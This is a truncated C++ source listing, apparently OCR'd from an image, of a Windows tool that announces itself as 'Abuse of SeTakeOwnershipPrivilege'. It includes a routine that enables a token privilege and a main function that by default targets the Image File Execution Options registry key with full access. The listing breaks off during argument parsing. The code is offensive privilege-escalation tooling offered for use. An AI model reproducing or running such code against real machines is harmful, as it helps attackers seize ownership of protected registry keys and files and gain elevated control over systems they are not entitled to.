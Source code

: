 ```c++
BOOL EnableTokenPrivilege(HANDLE hToken, LPCWSTR lpName)
{
    BOOL status = FALSE;
    LUID luidValue = { 0 };
    TOKEN_PRIVILEGES tokenPrivileges;

    // Get the LUID value of the privilege for the local system
    if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
    {
        wprintf(L"[-] LookupPrivilegeValue Error: [%u].\n", GetLastError());
        return status;
    }

    // Set escalation information
    tokenPrivileges.PrivilegeCount = 1;
    tokenPrivileges.Privileges[0].Luid = luidValue;
    tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    // Elevate Process Token Access
    if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
    {
        wprintf(L"[-] AdjustTokenPrivileges Error: [%u].\n", GetLastError());
        return status;
    }
    else
    {
        status = TRUE;
    }
    return status;
}

void PrintUsage()
{
    wprintf(
        L"Abuse of SeTakeOwnershipPrivilege by @WHOAMI (whoamianony.top)\n\n"
        L"Arguments:\n"
        L"  -h                     Show this help message and exit\n"
        L"  -e <Registry, File>    Specifies the type of object\n"
        L"  -t <ObjectName>        Specifies the name of object\n"
    );
}

int wmain(int argc, wchar_t* argv[])
{
    HANDLE hToken = NULL;
    LPCWSTR lpObjectType = L"Registry";
    LPCWSTR lpObjectName = L"MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options";
    SE_OBJECT_TYPE seObjectType = SE_REGISTRY_KEY;
    DWORD grfAccessPermissions = KEY_ALL_ACCESS;

    while ((argc > 1) && (argv[1][0] == '-'))
    {
        switch (argv[1][1])
        {
        case 'h':
            PrintUsage();
            return 0;
        case 'e':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
```